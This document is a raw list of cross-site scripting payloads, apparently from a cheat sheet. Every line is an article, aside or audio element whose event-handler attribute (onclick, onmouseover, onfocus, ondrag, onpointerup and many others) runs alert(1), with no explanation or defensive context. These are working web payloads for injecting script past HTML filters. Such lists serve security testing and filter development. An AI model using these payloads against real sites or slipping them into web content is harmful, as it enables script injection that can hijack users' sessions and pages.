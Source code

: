 <article onpointerup=alert(1) style=display:block>XSS</article>
<aside draggable="true" ondrag="alert(1)" style=display:block>test</aside>
<aside draggable="true" ondragend="alert(1)" style=display:block>test</aside>
<aside draggable="true" ondragenter="alert(1)" style=display:block>test</aside>
<aside draggable="true" ondragleave="alert(1)" style=display:block>test</aside>
<aside draggable="true" ondragstart="alert(1)" style=display:block>test</aside>
<aside id=x style="transition:outline 1s" ontransitionend=alert(1) tabindex=1></aside>
<aside id=x tabindex=1 onfocus=alert(1)></aside>
<aside id=x tabindex=1 onfocusin=alert(1)></aside>
<aside onafterscriptexecute=alert(1)><script>1</script>
<aside onbeforecopy="alert(1)" contenteditable>test</aside>
<aside onbeforecut="alert(1)" contenteditable>test</aside>
<aside onbeforescriptexecute=alert(1)><script>1</script>
<aside onblur=alert(1) id=x tabindex=1 style=display:block>test</aside><input value=clickme>
<aside onclick="alert(1)" style=display:block>test</aside>
<aside oncontextmenu="alert(1)" style=display:block>test</aside>
<aside oncopy=alert(1) value="XSS" autofocus tabindex=1 style=display:block>test
<aside oncut=alert(1) value="XSS" autofocus tabindex=1 style=display:block>test
<aside ondblclick="alert(1)" autofocus tabindex=1 style=display:block>test</aside>
<aside onfocusout=alert(1) id=x tabindex=1 style=display:block>test</aside><input value=clickme>
<aside onkeydown="alert(1)" contenteditable style=display:block>test</aside>
<aside onkeypress="alert(1)" contenteditable style=display:block>test</aside>
<aside onkeyup="alert(1)" contenteditable style=display:block>test</aside>
<aside onmousedown="alert(1)" style=display:block>test</aside>
<aside onmouseenter="alert(1)" style=display:block>test</aside>
<aside onmouseleave="alert(1)" style=display:block>test</aside>
<aside onmousemove="alert(1)" style=display:block>test</aside>
<aside onmouseout="alert(1)" style=display:block>test</aside>
<aside onmouseover="alert(1)" style=display:block>test</aside>
<aside onmouseup="alert(1)" style=display:block>test</aside>
<aside onmousewheel=alert(1) style=display:block>requires scrolling
<aside onpaste="alert(1)" contenteditable>test</aside>
<aside onpointerdown=alert(1) style=display:block>XSS</aside>
<aside onpointerenter=alert(1) style=display:block>XSS</aside>
<aside onpointerleave=alert(1) style=display:block>XSS</aside>
<aside onpointermove=alert(1) style=display:block>XSS</aside>
<aside onpointerout=alert(1) style=display:block>XSS</aside>
<aside onpointerover=alert(1) style=display:block>XSS</aside>
<aside onpointerrawupdate=alert(1) style=display:block>XSS</aside>
<aside onpointerup=alert(1) style=display:block>XSS</aside>
<audio controls src=1 onfocus=alert(1) autofocus>
<audio controls src=1 onfocusin=alert(1) autofocus>
<audio draggable="true" ondrag="alert(1)" style=display:block>test</audio>
<audio draggable="true" ondragend="alert(1)" style=display:block>test</audio>
<audio draggable="true" ondragenter="alert(1)" style=display:block>test</audio>
<audio draggable="true" ondragleave="alert(1)" style=display:block>test</audio>
<audio draggable="true" ondragstart="alert(1)" style=display:block>test</audio>
<audio id=x controls onfocus=alert(1) id=x><source src="validaudio.wav"></audio>
<audio id=x controls onfocusin=alert(1) id=x><source src="validaudio.wav"></audio>
<audio id=x style="transition:outline 1s" ontransitionend=alert(1) tabindex=1></audio>
<audio onafterscriptexecute=alert(1)><script>1</script>
<audio onbeforecopy="alert(1)" contenteditable>test</audio>
<audio onbeforecut="alert(1)" contenteditable>test</audio>
<audio onbeforescriptexecute=alert(1)><script>1</script>
<audio onblur=alert(1) id=x tabindex=1 style=display:block>test</audio><input value=clickme>
<audio onclick="alert(1)" style=display:block>test</audio>
<audio oncontextmenu="alert(1)" style=display:block>test</audio>
<audio oncopy=alert(1) value="XSS" autofocus tabindex=1 style=display:block>test
<audio oncut=alert(1) value="XSS" autofocus tabindex=1 style=display:block>test
<audio ondblclick="alert(1)" autofocus tabindex=1 style=display:block>test</audio>
<audio onfocusout=alert(1) id=x tabindex=1 style=display:block>test</audio><input value=clickme>
<audio onkeydown="alert(1)" contenteditable style=display:block>test</audio>
<audio onkeypress="alert(1)" contenteditable style=display:block>test</audio>
<audio onkeyup="alert(1)" contenteditable style=display:block>test</audio>